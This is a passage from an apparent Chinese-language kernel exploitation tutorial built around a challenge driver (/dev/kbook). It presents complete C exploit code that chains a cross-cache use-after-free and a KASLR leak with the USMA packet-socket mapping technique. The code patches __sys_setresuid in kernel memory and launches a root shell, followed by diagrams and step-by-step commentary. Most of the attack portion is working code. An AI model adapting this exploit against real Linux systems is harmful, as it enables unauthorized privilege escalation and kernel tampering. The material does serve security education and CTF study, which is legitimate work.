
3. **访问控制强化**：
    - 限制packet socket的内存映射权限
    - 实施细粒度的能力控制
    - 最小权限原则，按需分配权限

4. **监控与检测**：
    - 监控异常的内存映射行为
    - 检测内核代码段修改尝试
    - 实时分析系统调用模式

### 3-6. 技术总结

**[USMA（User-Space-Mapping-Attack）](https://vul.360.net/archives/391)** 技术代表了一种新型的内核访问方法，它通过利用合法系统接口和内存映射机制，实现用户空间对内核内存的直接访问。该技术基于Linux内核packet socket模块的环形缓冲区机制，通过控制关键数据结构指针，将指定的内核内存区域映射到用户空间，从而实现对内核内存的读取和修改。

该技术的核心价值在于其创新的实现方式，它不依赖于传统的控制流操作，而是通过合法的系统调用路径实现内存访问，这使得它能够规避基于控制流的检测机制。同时，该技术也揭示了操作系统安全机制中可能存在的一些盲点，特别是在内存完整性保护方面。

从技术实现角度看，USMA涉及多个关键步骤：环境初始化与缓冲区设置、指针控制与重定向、内存映射建立、以及内存访问与修改。每个步骤都依赖于特定的内核机制和接口，包括socket创建、setsockopt参数设置、内存分配、mmap映射等。

该技术的出现对系统安全提出了新的挑战，也促使安全研究人员重新思考内核保护策略。有效的防护需要从预防、检测、响应多个层面构建综合防护体系，结合软件和硬件技术，形成纵深防御。同时，这也表明系统安全是一个持续演进的领域，需要不断适应新的技术发展和挑战。

通过对USMA技术的深入分析，不仅能够更好地理解这种特定技术方法，更重要的是能够从中提取一般性的安全原则，为设计更安全的操作系统和防御机制提供有价值的参考。在日益复杂的计算环境中，这种深入的技术分析和前瞻性的安全思考显得尤为重要。

## 4. 实战演练

exploit核心代码如下：

```c
/*==============================================================================
 *  KERNEL OFFSET CONSTANTS
 *============================================================================*/
#define KERNEL_MASK                  0xfffffffffffff000
#define __SYS_SETRESUID_OFFSET       0xffffffff81111110
#define USER_FREE_PAYLOAD_RCU_OFFSET 0xffffffff81683180

/*==============================================================================
 *  EXPLOIT CONFIGURATION
 *============================================================================*/
#define KEY_SPRAY_COUNT            199
#define PGV_SPRAY_COUNT            0x60
#define MAX_BOOKS                  0x20
#define MAX_PAGES_PER_BOOK         0x20
#define PATCH_SIZE                 0x10

/*==============================================================================
 *  GLOBAL EXPLOIT STATE
 *============================================================================*/
static int book_fds[MAX_BOOKS];
static int book_idx = -1;
static int page_idx = -1;
static int victim_key_id = -1;
static int key_ids[KEY_SPRAY_COUNT];
static size_t __sys_setresuid = 0;
static size_t original_pgvec_buffer = 0;  // Original pg_vec[i].buffer value
size_t payload[0x1000 / 8] = {0};
size_t leak_data[0x1000 / 8] = {0};

/*==============================================================================
 *  CHALLENGE DEVICE INTERFACE
 *============================================================================*/
#define CHOOSE_BOOK    0x114
#define SET_PAGE       0x514
#define DELETE_PAGE    0x1919810

static long kbook_choose_book(int fd, size_t idx) {
    return ioctl(fd, CHOOSE_BOOK, idx);
}

static long kbook_set_page(int fd, size_t idx) {
    return ioctl(fd, SET_PAGE, idx);
}

static long kbook_delete_page(int fd, size_t idx) {
    return ioctl(fd, DELETE_PAGE, idx);
}

/*==============================================================================
 *  EXPLOIT PHASE 1: ENVIRONMENT SETUP
 *============================================================================*/

/**
 * Initialize exploit environment
 * @return 0 on success, -1 on failure
 */
int phase_environment_bootstrap(void) {
    log.info("===========================================================");
    log.info("PHASE 1: ENVIRONMENT INITIALIZATION & DEVICE SETUP         ");
    log.info("===========================================================");

    log.info("Initializing CPU affinity and core binding");
    bind_core(0);

    log.info("Initializing PGV V3 system");
    if (pgv_init(PGV_PROTO_V3) < 0) {
        log.error("Failed to initialize PGV system");
        return -1;
    }

    log.info("Opening %d kbook device file descriptors", MAX_BOOKS);
    for (int i = 0; i < MAX_BOOKS; i++) {
        book_fds[i] = open("/dev/kbook", O_RDWR);
        if (book_fds[i] < 0) {
            log.error("Failed to open /dev/kbook device");
            return -1;
        }

        if (kbook_choose_book(book_fds[i], i) < 0) {
            log.error("kbook_choose_book ioctl failed for book index %d", i);
            return -1;
        }
    }

    log.success("Device initialization completed: %d file descriptors active", MAX_BOOKS);
    return 0;
}

/*==============================================================================
 *  EXPLOIT PHASE 2: HEAP FENGSHUI
 *============================================================================*/

/**
 * Perform heap shaping and establish UAF primitive
 * @return 0 on success, -1 on failure
 */
int phase_heap_fengshui(void) {
    log.info("===========================================================");
    log.info("PHASE 2: HEAP SHAPING & MEMORY LAYOUT MANIPULATION         ");
    log.info("===========================================================");

    log.info("Spraying order 2 pages via kbook device...");
    for (int i = 0; i < MAX_BOOKS; i++) {
        for (int j = 0; j < MAX_PAGES_PER_BOOK; j++) {
            if (kbook_set_page(book_fds[i], j) < 0) {
                log.error("kbook_set_page ioctl failed for book %d, page %d", i, j);
                return -1;
            }

            if (write(book_fds[i], "BinRacer", 8) < 0) {
                log.error("Failed to write marker to book %d", i);
                return -1;
            }
        }
    }

    log.success("Order 2 page spray completed: %d books with %d pages each", MAX_BOOKS, MAX_PAGES_PER_BOOK);

    log.info("Triggering Use-After-Free by freeing all order 2 pages...");
    for (int i = 0; i < MAX_BOOKS; i++) {
        for (int j = 0; j < MAX_PAGES_PER_BOOK; j++) {
            if (kbook_delete_page(book_fds[i], j) < 0) {
                log.error("kbook_delete_page failed for book %d, page %d", i, j);
                return -1;
            }
        }
    }

    log.info("Reclaiming freed pages as order 1 user_key_payload objects...");
    for (int i = 0; i < KEY_SPRAY_COUNT; i++) {
        // kmalloc-512 / order 1
        payload[0] = *(size_t*)"BinRacer";
        payload[1] = i;
        payload[2] = i;
        key_ids[i] = key_alloc("BinRacer", payload, 0x200 - 0x18);
        if (key_ids[i] < 0) {
            log.error("Failed to allocate key %d", i);
            return -1;
        }
    }

    log.info("Scanning for UAF overlap between kbook pages and user_key_payload objects...");
    for (int i = 0; i < MAX_BOOKS; i++) {
        for (int j = 0; j < MAX_PAGES_PER_BOOK; j++) {
            if (kbook_set_page(book_fds[i], j) < 0) {
                log.error("kbook_set_page failed for book %d, page %d", i, j);
                return -1;
            }

            memset(leak_data, 0, 0x30);
            if (read(book_fds[i], leak_data, 0x30) < 0) {
                log.error("read failed for book %d", i);
                continue;
            }

            // Detect user_key_payload structure overlap
            if (leak_data[0] != *(size_t *)"BinRacer" && leak_data[1] > kernel_base) {
                book_idx = i;
                page_idx = j;
                victim_key_id = leak_data[4];
                hex_dump2("Leaked user_key_payload structure from overlapping memory", leak_data, 0x30);
                log.success("UAF controlled via book[%d], page[%d]", book_idx, page_idx);
                log.success("Found victim key id %d", victim_key_id);
                goto uaf_found;
            }
        }
    }

uaf_found:
    if (book_idx < 0 || page_idx < 0) {
        log.error("Failed to establish UAF on user_key_payload object - heap layout failed");
        return -1;
    }

    kernel_offset = leak_data[1] - USER_FREE_PAYLOAD_RCU_OFFSET;
    kernel_base += kernel_offset;
    __sys_setresuid = kernel_offset + __SYS_SETRESUID_OFFSET;
    log.success("Leaked user_free_payload_rcu: 0x%lx", leak_data[1]);
    log.success("Leaked __sys_setresuid: 0x%lx", __sys_setresuid);
    log.success("Kernel base address: 0x%lx", kernel_base);
    log.success("Kernel ASLR offset delta: 0x%lx", kernel_offset);
    return 0;
}

/*==============================================================================
 *  EXPLOIT PHASE 3: PGV SPRAY
 *============================================================================*/

/**
 * Spray PGV pages to capture kernel code page
 * @return Slot index on success, -1 on failure
 */
int phase_pgv_spray(void) {
    struct pgv_config v3_cfg = {
        .proto_ver = PGV_PROTO_V3,
        .blk_size = 0x1000,
        .blk_count = 0x200 / 8,
        .frame_size = 2048,
        .priv_len = 0,
        .timeout = 1000 * 1000 * 1000,
    };

    log.info("===========================================================");
    log.info("PHASE 3: PGV PAGE SPRAY");
    log.info("===========================================================");

    // Free victim key to make space for PGV pages
    if (victim_key_id >= 0) {
        key_revoke(victim_key_id);
        key_unlink(victim_key_id);
    }

    usleep(2000000); // 2 second delay

    // Allocate PGV slots
    log.info("Allocating PGV slots");
    for (int i = 0; i < PGV_SPRAY_COUNT; i++) {
        if (pgv_alloc(i, &v3_cfg) < 0) {
            log.error("Failed to allocate PGV slot %d", i);
            return -1;
        }
    }

    usleep(2000000); // 2 second delay

    // Read the original pg_vec[i].buffer value from the corrupted user_key_payload
    // This preserves the original pointer to avoid kernel crashes after exploitation
    log.info("Reading original pg_vec[i].buffer value from corrupted user_key_payload");
    if (read(book_fds[book_idx], &original_pgvec_buffer, 0x8) < 0) {
        log.error("Failed to read original pg_vec[i].buffer value");
        return -1;
    }
    log.success("Original pg_vec[i].buffer value: 0x%lx", original_pgvec_buffer);

    // Trigger allocation of target kernel page by overwriting pg_vec[i].buffer
    // with the target kernel function address
    log.info("Overwriting pg_vec[i].buffer with target kernel function address");
    size_t target_addr = __sys_setresuid & KERNEL_MASK;
    if (write(book_fds[book_idx], &target_addr, 8) < 0) {
        log.error("Failed to write target address to pg_vec[i].buffer");
        return -1;
    }

    usleep(2000000); // 2 second delay

    // Map and search for target page
    log.info("Mapping PGV slots and searching for target kernel code page");
    for (int i = 0; i < PGV_SPRAY_COUNT; i++) {
        if (pgv_map(i, &v3_cfg) < 0) {
            log.error("Failed to map PGV slot %d", i);
            continue;
        }

        char buffer[8];
        if (pgv_read(i, 0, 8, buffer) != 8) {
            continue;
        }

        // Check for target page signature (kernel code page magic)
        if (*(uint64_t *)buffer == 0x00000001bafe894c) {
            log.success("Found target kernel code page at slot %d", i);
            return i; // Return slot index
        }
    }

    log.error("Failed to find target kernel code page in PGV slots");
    return -1;
}

/*==============================================================================
 *  EXPLOIT PHASE 4: KERNEL PATCHING
 *============================================================================*/

/**
 * Patch kernel code to bypass permission checks
 * @param slot_idx PGV slot containing target page
 * @return 0 on success, -1 on failure
 */
int phase_kernel_patching(int slot_idx) {
    log.info("===========================================================");
    log.info("PHASE 4: KERNEL CODE PATCHING");
    log.info("===========================================================");

    char patch_buffer[PATCH_SIZE];

    // Patch 1: Offset 0x152 (__sys_setresuid+66)
    // Original: check for capability
    // Patch: xor rax, rax; nop; nop
    char patch1[5] = {0x48, 0x31, 0xC0, 0x90, 0x90}; // xor rax, rax; nop; nop
    if (pgv_write(slot_idx, 0x152, 5, patch1) != 5) {
        log.error("Failed to apply patch 1 at offset 0x152");
        return -1;
    }
    log.success("Applied patch at offset 0x152");

    // Patch 2: Offset 0x160 (__sys_setresuid+80)
    char patch2[5] = {0x48, 0x31, 0xC0, 0x90, 0x90}; // xor rax, rax; nop; nop
    if (pgv_write(slot_idx, 0x160, 5, patch2) != 5) {
        log.error("Failed to apply patch 2 at offset 0x160");
        return -1;
    }
    log.success("Applied patch at offset 0x160");

    // Patch 3: Offset 0x16d (__sys_setresuid+93)
    char patch3[5] = {0x48, 0x31, 0xC0, 0x90, 0x90}; // xor rax, rax; nop; nop
    if (pgv_write(slot_idx, 0x16d, 5, patch3) != 5) {
        log.error("Failed to apply patch 3 at offset 0x16d");
        return -1;
    }
    log.success("Applied patch at offset 0x16d");

    // Patch 4: Offset 0x267 (__sys_setresuid+343)
    // Original: conditional jump
    // Patch: nop sled
    char patch4[6] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90}; // nop sled
    if (pgv_write(slot_idx, 0x267, 6, patch4) != 6) {
        log.error("Failed to apply patch 4 at offset 0x267");
        return -1;
    }
    log.success("Applied patch at offset 0x267");

    log.success("Kernel code patching completed successfully");
    return 0;
}

/*==============================================================================
 *  EXPLOIT PHASE 5: PRIVILEGE ESCALATION
 *============================================================================*/

/**
 * Restore original pg_vec[i].buffer and trigger privilege escalation
 * @return 0 on success, -1 on failure
 */
int phase_privilege_escalation(void) {
    log.info("===========================================================");
    log.info("PHASE 5: PRIVILEGE ESCALATION");
    log.info("===========================================================");

    // Restore original pg_vec[i].buffer value to avoid kernel crashes
    log.info("Restoring original pg_vec[i].buffer value");
    if (write(book_fds[book_idx], &original_pgvec_buffer, 8) < 0) {
        log.error("Failed to restore original pg_vec[i].buffer value");
        return -1;
    }
    log.success("Restored pg_vec[i].buffer to original value: 0x%lx", original_pgvec_buffer);

    // Trigger the patched setresuid function to gain root privileges
    log.info("Triggering setresuid(0, 0, 0) to gain root privileges");
    if (setresuid(0, 0, 0) < 0) {
        log.error("setresuid failed: %s", strerror(errno));
        return -1;
    }

    // Verify root privileges
    if (geteuid() == 0) {
        log.success("SUCCESS! Gained root privileges");
        log.success("Launching root shell...");
        get_root_shell();
        return 0;
    } else {
        log.error("Failed to gain root privileges");
        return -1;
    }
}

/*==============================================================================
 *  MAIN EXPLOIT FLOW
 *============================================================================*/

int main(void) {
    int target_slot = -1;

    // Set log level to INFO for normal operation
    set_log_level(LOG_LEVEL_INFO);

    // Phase 1: Environment setup
    if (phase_environment_bootstrap() < 0) {
        log.critical("Exploit initialization failed");
        return EXIT_FAILURE;
    }

    // Phase 2: Heap fengshui
    if (phase_heap_fengshui() < 0) {
        log.critical("Heap manipulation failed");
        return EXIT_FAILURE;
    }

    // Phase 3: PGV spray
    target_slot = phase_pgv_spray();
    if (target_slot < 0) {
        log.critical("PGV spray failed");
        return EXIT_FAILURE;
    }

    // Phase 4: Kernel patching
    if (phase_kernel_patching(target_slot) < 0) {
        log.critical("Kernel patching failed");
        return EXIT_FAILURE;
    }

    // Phase 5: Privilege escalation
    if (phase_privilege_escalation() < 0) {
        log.critical("Privilege escalation failed");
        return EXIT_FAILURE;
    }

    // Cleanup
    pgv_cleanup();

    return EXIT_SUCCESS;
}
```

本章将深入分析一个完整的Cross-Cache UAF漏洞利用实例，展示如何将前文所述的漏洞原理和USMA技术转化为实际可执行的利用流程。整个利用过程采用分阶段、模块化的设计思想，通过五个紧密衔接的阶段逐步构建完整的利用链，展现了从漏洞发现到最终利用的完整技术路径。

### 4-1. 利用流程整体设计

**Cross-Cache UAF技术核心原理**：

Cross-Cache UAF技术的核心在于通过页级堆风水操作，将属于不同缓存的内存对象转换为重叠的缓存，从而利用UAF转化为跨缓存UAF。具体来说，kbook_jar缓存（kmalloc-1k）分配的是order 2页面，而user_key_payload（kmalloc-512）分配的是order 1页面。通过堆喷kbook_jar对象然后完全释放，这些内存返回到order 2页面池。接着堆喷user_key_payload对象，当order 1页面耗尽后，内存分配器会从order 2页面池中切割内存。此时user_key_payload对象有很大概率占用之前释放的kbook_jar缓存页面，形成跨缓存的UAF条件。由于kbook驱动存在UAF漏洞，可以通过悬垂指针读写user_key_payload结构的内容，从而泄露内核地址信息。

**阶段划分与依赖关系**：


```mermaid
graph TD
    A[阶段一: 环境准备] --> B[阶段二: 堆风水布局]
    B --> C[阶段三: 内存控制建立]
    C --> D[阶段四: 内核代码修补]
    D --> E[阶段五: 权限获取验证]

    style A fill:#e1f5fe
    style B fill:#e8f5e8
    style C fill:#fff3e0
    style D fill:#fce4ec
    style E fill:#f3e5f5
```

**完整利用流程状态机**：


```mermaid
stateDiagram-v2
    [*] --> 环境准备
    环境准备 --> 堆风水布局: phase_environment_bootstrap成功
    环境准备 --> 环境准备失败: phase_environment_bootstrap失败

    堆风水布局 --> 内存控制建立: phase_heap_fengshui成功
    堆风水布局 --> 堆风水布局失败: phase_heap_fengshui失败

    内存控制建立 --> 内核代码修补: phase_pgv_spray成功
    内存控制建立 --> 内存控制建立失败: phase_pgv_spray失败

    内核代码修补 --> 权限获取验证: phase_kernel_patching成功
    内核代码修补 --> 内核代码修补失败: phase_kernel_patching失败

    权限获取验证 --> 资源清理: phase_privilege_escalation成功
    权限获取验证 --> 权限获取验证失败: phase_privilege_escalation失败

    资源清理 --> [*]: 利用流程完成

    环境准备失败 --> [*]: 流程终止
    堆风水布局失败 --> [*]: 流程终止
    内存控制建立失败 --> [*]: 流程终止
    内核代码修补失败 --> [*]: 流程终止
    权限获取验证失败 --> [*]: 流程终止
```

每个阶段都有明确的技术目标和实现方法，前一阶段的输出为后一阶段创造必要条件，形成逻辑严密的利用链条。这种渐进式利用方法确保每个操作步骤都可控、可验证，同时支持完整的状态恢复机制。

### 4-2. 阶段一：环境准备与设备初始化

**技术目标**：建立稳定的利用环境，初始化必要的系统资源，为后续内存操作和系统调用提供基础支持。

**环境准备流程图**：


```mermaid
flowchart TD
    Start[开始环境准备] --> Step1[CPU核心绑定]
    Step1 --> Step2[PGV系统初始化]
    Step2 --> Step3[打开设备文件]

    Step3 --> LoopStart[遍历0..31个书籍索引]
    LoopStart --> Step4[打开/dev/kbook设备]
    Step4 --> Step5[选择对应书籍]
    Step5 --> LoopEnd{是否完成?}
    LoopEnd -- 否 --> LoopStart
    LoopEnd -- 是 --> Success[环境准备完成]

    Step1 --> Error1[CPU绑定失败]
    Step2 --> Error2[PGV初始化失败]
    Step4 --> Error3[设备打开失败]
    Step5 --> Error4[ioctl操作失败]

    Error1 --> Fail[环境准备失败]
    Error2 --> Fail
    Error3 --> Fail
    Error4 --> Fail
```

**核心实现逻辑**：

```c
int phase_environment_bootstrap(void) {
    /* 绑定CPU核心，减少多核环境下的操作干扰 */
    bind_core(0);

    /* 初始化PGV V3系统，为后续内存映射操作准备基础设施 */
    pgv_init(PGV_PROTO_V3);

    /* 打开kbook设备文件描述符，建立设备访问通道 */
    for (int i = 0; i < MAX_BOOKS; i++) {
        book_fds[i] = open("/dev/kbook", O_RDWR);
        /* 为每个文件描述符选择对应的书籍，建立独立的操作上下文 */
        kbook_choose_book(book_fds[i], i);
    }
    return 0;
}
```

**环境准备详细分析**：

环境准备阶段是Cross-Cache UAF利用流程的基础，通过三个关键步骤为后续复杂的内存操作和系统调用创造有利条件。首先，CPU核心绑定操作将进程固定到特定的CPU核心，这在内核利用中至关重要。在多核系统中，内存分配和释放操作可能涉及缓存一致性和内存屏障问题，进程在不同CPU核心间迁移会增加操作时序的不确定性。通过绑定到CPU 0，可以有效减少这些干扰因素，提高内存操作的时序可预测性，确保后续堆风水布局的稳定性。

其次，PGV V3系统的初始化为USMA技术提供了必要的基础设施。PGV（Packet Generic Vector）系统是Linux内核中packet socket模块的重要组成部分，它提供了内核与用户空间之间的高效内存映射机制。V3版本相比早期版本具有更好的性能和更灵活的内存管理特性，能够支持更复杂的内存操作场景。通过pgv_init函数初始化PGV系统，为后续的内存映射操作建立了必要的框架。

最后，设备文件描述符的管理为并行操作创造了条件。通过打开32个设备文件描述符，每个描述符对应kbook驱动中的一个独立"书籍"，可以同时操作多个内存区域，显著提高利用效率。kbook_choose_book函数为每个文件描述符设置初始位置，建立独立的操作上下文，这种设计允许在多个"书籍"和"页面"之间进行并行操作，增加了利用的成功率和灵活性。

**设备操作接口定义**：

```c
#define CHOOSE_BOOK    0x114      // 选择书籍命令
#define SET_PAGE       0x514      // 设置页面命令
#define DELETE_PAGE    0x1919810  // 删除页面命令
```

**技术要点**：通过CPU绑定提高内存操作的时序可预测性；通过PGV系统初始化建立内存映射基础设施；通过多文件描述符实现并行操作能力；完善的错误处理确保操作可靠性。

### 4-3. 阶段二：堆风水布局与信息泄露

**技术目标**：通过Cross-Cache UAF技术创建有利的内存布局，建立Use-After-Free条件，并从中提取关键的内核地址信息。

**Cross-Cache UAF原理详解**：

本阶段利用Cross-Cache UAF技术实现内存布局控制。kbook_jar缓存是一个独立的kmalloc-1k缓存，分配的是order 2页面（4KB）。通过分配1024个kbook_jar对象，占用了256个order 2页面。然后完全释放这些对象，内存返回到order 2页面池。接着分配199个user_key_payload对象（kmalloc-512/order 1），当order 1页面耗尽后，内存分配器会从order 2页面池中切割内存。由于kbook驱动存在UAF漏洞（释放后未清空指针），可以通过悬垂指针读写user_key_payload结构的内容，从而泄露内核地址信息。

**堆风水布局流程图**：


```mermaid
sequenceDiagram
    participant 利用进程
    participant kbook驱动
    participant Slab分配器
    participant 密钥管理

    Note over 利用进程,密钥管理: 步骤1: 分配kbook_jar对象(Order 2)
    loop 32本书 × 32页/本
        利用进程->>kbook驱动: kbook_set_page(book, page)
        利用进程->>kbook驱动: write("BinRacer", 8)
        kbook驱动->>Slab分配器: kmem_cache_alloc(kbook_jar)
    end

    Note over 利用进程,密钥管理: 步骤2: 释放所有kbook_jar对象
    loop 32本书 × 32页/本
        利用进程->>kbook驱动: kbook_delete_page(book, page)
        kbook驱动->>Slab分配器: kfree(内存对象)
    end

    Note over 利用进程,密钥管理: 步骤3: 分配user_key_payload对象(Order 1)
    loop 199个user_key_payload
        利用进程->>密钥管理: key_alloc("BinRacer", payload)
    end

    Note over 利用进程,密钥管理: 步骤4: 扫描内存重叠区域
    loop 32本书 × 32页/本
        利用进程->>kbook驱动: kbook_set_page(book, page)
        利用进程->>kbook驱动: read(泄露数据, 0x30)
    end
```

**核心实现逻辑**：

```c
int phase_heap_fengshui(void) {
    /* 步骤1: 分配kbook_jar对象，建立初始内存布局 */
    for (int i = 0; i < MAX_BOOKS; i++) {
        for (int j = 0; j < MAX_PAGES_PER_BOOK; j++) {
            kbook_set_page(book_fds[i], j);
            write(book_fds[i], "BinRacer", 8);  // 写入标记数据
        }
    }

    /* 步骤2: 释放所有kbook_jar对象，创建Use-After-Free条件 */
    for (int i = 0; i < MAX_BOOKS; i++) {
        for (int j = 0; j < MAX_PAGES_PER_BOOK; j++) {
            kbook_delete_page(book_fds[i], j);
        }
    }

    /* 步骤3: 分配user_key_payload对象，创建Cross-Cache UAF */
    for (int i = 0; i < KEY_SPRAY_COUNT; i++) {
        key_ids[i] = key_alloc("BinRacer", payload, 0x200 - 0x18);
    }

    /* 步骤4: 扫描内存重叠区域，识别user_key_payload对象 */
    for (int i = 0; i < MAX_BOOKS; i++) {
        for (int j = 0; j < MAX_PAGES_PER_BOOK; j++) {
            kbook_set_page(book_fds[i], j);
            read(book_fds[i], leak_data, 0x30);

            /* 检测user_key_payload结构特征并提取内核地址信息 */
            if (leak_data[0] != *(size_t *)"BinRacer" && leak_data[1] > kernel_base) {
                book_idx = i;
                page_idx = j;
                victim_key_id = leak_data[4];
                /* 计算内核地址信息，绕过KASLR保护 */
                kernel_offset = leak_data[1] - USER_FREE_PAYLOAD_RCU_OFFSET;
                __sys_setresuid = kernel_offset + __SYS_SETRESUID_OFFSET;
                goto uaf_found;
            }
        }
    }
uaf_found:
    return (book_idx >= 0 && page_idx >= 0) ? 0 : -1;
}
```

**内存状态变化分析**：

堆风水布局操作通过系统性的内存分配、释放和重新分配创建可控的内存环境。首先分配1024个kbook对象建立初始布局，然后全部释放创建UAF条件。由于kbook_jar是独立缓存，释放的内存返回到order 2页面池。接着分配199个user_key_payload对象（kmalloc-512/order 1），当order 1页面耗尽后，内存分配器会从order 2页面池中切割内存，此时user_key_payload对象有很大概率占用之前释放的kbook_jar缓存页面。通过扫描内存重叠区域识别目标对象，利用泄露的内核函数指针计算内核基址和目标函数地址，成功绕过KASLR保护。

**内存布局优化策略**：

1. **分配数量优化**：32×32=1024个kbook对象完全覆盖可能的内存区域
2. **释放时机控制**：完全释放所有对象，最大化UAF条件
3. **重新分配策略**：199个user_key_payload对象确保高概率内存重叠
4. **特征识别算法**：精确识别user_key_payload结构特征

**信息泄露技术细节**：

```c
/* 内核偏移常量定义 */
#define USER_FREE_PAYLOAD_RCU_OFFSET 0xffffffff81683180
#define __SYS_SETRESUID_OFFSET       0xffffffff81111110

/* 信息泄露计算公式 */
kernel_offset = leak_data[1] - USER_FREE_PAYLOAD_RCU_OFFSET;
kernel_base += kernel_offset;
__sys_setresuid = kernel_offset + __SYS_SETRESUID_OFFSET;
```

**技术要点**：通过系统性的内存操作创建可控的内存布局；利用Cross-Cache UAF技术实现不同类型对象的内存重叠；通过特征识别算法精确提取目标对象信息；基于泄露的内核地址计算关键函数位置，绕过KASLR保护。

### 4-4. 阶段三：内存控制建立

**技术目标**：释放被识别的目标密钥对象，并重新分配为可控的PGV结构体数组，建立对关键数据结构的控制，为后续内存映射操作创造条件。

**内存控制建立流程图**：


```mermaid
flowchart TD
    Start[开始内存控制建立] --> Step1[释放目标密钥对象]
    Step1 --> Step2[等待2秒内存释放完成]
    Step2 --> Step3[分配96个PGV槽位]
    Step3 --> Step4[等待2秒内存分配完成]
    Step4 --> Step5[保存原始buffer指针]
    Step5 --> Step6[重定向buffer指针]
    Step6 --> Step7[等待2秒指针修改生效]
    Step7 --> Step8[映射并搜索目标页面]

    Step8 --> LoopStart[遍历0..95个槽位]
    LoopStart --> Step9[映射当前槽位]
    Step9 --> Step10[读取前8字节数据]
    Step10 --> Check{是否为内核代码页?}
    Check -- 是 --> Found[记录槽位索引]
    Check -- 否 --> LoopEnd{遍历完成?}

    LoopEnd -- 否 --> LoopStart
    LoopEnd -- 是 --> NotFound[未找到目标页面]

    Found --> Success[内存控制建立成功]
    NotFound --> Fail[内存控制建立失败]

    subgraph 关键技术操作
        Step5
        Step6
        Step9
    end

    subgraph 目标识别验证
        Step10
        Check
    end
```

**核心实现逻辑**：

```c
int phase_pgv_spray(void) {
    struct pgv_config v3_cfg = {
        .proto_ver = PGV_PROTO_V3,
        .blk_size = 0x1000,
        .blk_count = 0x200 / 8,
        .frame_size = 2048,
        .priv_len = 0,
        .timeout = 1000 * 1000 * 1000,
    };

    /* 释放目标密钥对象，使其内存可重新分配 */
    if (victim_key_id >= 0) {
        key_revoke(victim_key_id);
        key_unlink(victim_key_id);
    }
    usleep(2000000);  // 等待2秒，确保内存完全释放

    /* 分配PGV槽位，尝试占用释放的内存 */
    for (int i = 0; i < PGV_SPRAY_COUNT; i++) {
        pgv_alloc(i, &v3_cfg);
    }
    usleep(2000000);  // 等待2秒，确保内存分配完成

    /* 保存原始pg_vec[i].buffer指针值，用于状态恢复 */
    read(book_fds[book_idx], &original_pgvec_buffer, 0x8);

    /* 重定向pg_vec[i].buffer指针到目标内核函数页面 */
    size_t target_addr = __sys_setresuid & KERNEL_MASK;  // 页面对齐地址
    write(book_fds[book_idx], &target_addr, 8);
    usleep(2000000);  // 等待2秒，确保指针修改生效

    /* 映射PGV槽位并搜索目标内核代码页 */
    for (int i = 0; i < PGV_SPRAY_COUNT; i++) {
        pgv_map(i, &v3_cfg);
        char buffer[8];
        pgv_read(i, 0, 8, buffer);
        /* 检查目标页面特征（内核代码页魔术值） */
        if (*(uint64_t *)buffer == 0x00000001bafe894c) {
            return i;  // 返回找到的槽位索引
        }
    }
    return -1;
}
```

**时序控制策略**：

内存控制建立阶段通过精确的时序控制实现内存的可靠重用。首先释放目标密钥对象，等待2秒确保内存完全释放。然后分配96个PGV结构体数组，通过大量分配提高内存重用的概率。保存原始buffer指针值用于后续状态恢复，然后将buffer指针重定向到目标内核函数所在的页面。最后映射所有PGV槽位，通过特征识别算法查找包含目标内核代码页的槽位。

**PGV配置参数详解**：

```c
/* PGV配置结构定义 */
struct pgv_config {
    int proto_ver;     // 协议版本: PGV_PROTO_V3
    size_t blk_size;   // 块大小: 0x1000 (4KB)
    size_t blk_count;  // 块数量: 0x200/8 (64)
    size_t frame_size; // 帧大小: 2048 (2KB)
    size_t priv_len;   // 私有数据长度: 0
    size_t timeout;    // 超时时间: 1秒
};
```

**控制状态转移**：内存控制阶段实现从密钥对象到PGV对象的状态转移。通过释放目标密钥对象创建内存重用机会，分配PGV对象建立控制权，保存原始指针支持状态恢复，重定向指针建立内存访问通道，最终通过特征识别验证控制效果。

**目标页面识别算法**：

```c
/* 内核代码页特征识别 */
#define KERNEL_CODE_MAGIC 0x00000001bafe894c

if (*(uint64_t *)buffer == 0x00000001bafe894c) {
    // 发现内核代码页特征
    // 这个魔术值是特定内核版本的代码页签名
    // 通过反汇编分析确定的目标特征
}
```

**技术要点**：通过精确的时序控制实现内存的可靠重新分配；利用PGV系统建立对关键数据结构的控制；通过特征识别算法验证控制效果；保存原始状态信息支持操作回滚和系统恢复。

### 4-5. 阶段四：内核代码修补

**技术目标**：通过已建立的内存控制通道，精确修改目标内核函数的指令逻辑，实现特定的功能变更，为后续权限获取验证创造条件。

**内核代码修补流程图**：

```mermaid
sequenceDiagram
    participant 利用进程
    participant PGV系统
    participant 内核内存

    Note over 利用进程,内核内存: 应用补丁1: 偏移0x152
    利用进程->>PGV系统: pgv_write(slot, 0x152, 5, patch1)
    PGV系统->>内核内存: 写入5字节指令
    内核内存-->>PGV系统: 写入成功
    PGV系统-->>利用进程: 返回5

    Note over 利用进程,内核内存: 应用补丁2: 偏移0x160
    利用进程->>PGV系统: pgv_write(slot, 0x160, 5, patch2)
    PGV系统->>内核内存: 写入5字节指令
    内核内存-->>PGV系统: 写入成功
    PGV系统-->>利用进程: 返回5

    Note over 利用进程,内核内存: 应用补丁3: 偏移0x16d
    利用进程->>PGV系统: pgv_write(slot, 0x16d, 5, patch3)
    PGV系统->>内核内存: 写入5字节指令
    内核内存-->>PGV系统: 写入成功
    PGV系统-->>利用进程: 返回5

    Note over 利用进程,内核内存: 应用补丁4: 偏移0x267
    利用进程->>PGV系统: pgv_write(slot, 0x267, 6, patch4)
    PGV系统->>内核内存: 写入6字节指令
    内核内存-->>PGV系统: 写入成功
    PGV系统-->>利用进程: 返回6
```

**核心实现逻辑**：

```c
int phase_kernel_patching(int slot_idx) {
    /* 补丁1: 偏移0x152 (__sys_setresuid+66) */
    char patch1[5] = {0x48, 0x31, 0xC0, 0x90, 0x90};  // xor rax, rax; nop; nop
    pgv_write(slot_idx, 0x152, 5, patch1);

    /* 补丁2: 偏移0x160 (__sys_setresuid+80) */
    char patch2[5] = {0x48, 0x31, 0xC0, 0x90, 0x90};  // xor rax, rax; nop; nop
    pgv_write(slot_idx, 0x160, 5, patch2);

    /* 补丁3: 偏移0x16d (__sys_setresuid+93) */
    char patch3[5] = {0x48, 0x31, 0xC0, 0x90, 0x90};  // xor rax, rax; nop; nop
    pgv_write(slot_idx, 0x16d, 5, patch3);

    /* 补丁4: 偏移0x267 (__sys_setresuid+343) */
    char patch4[6] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90};  // nop sled
    pgv_write(slot_idx, 0x267, 6, patch4);

    return 0;
}
```

**指令修改位置分析**：

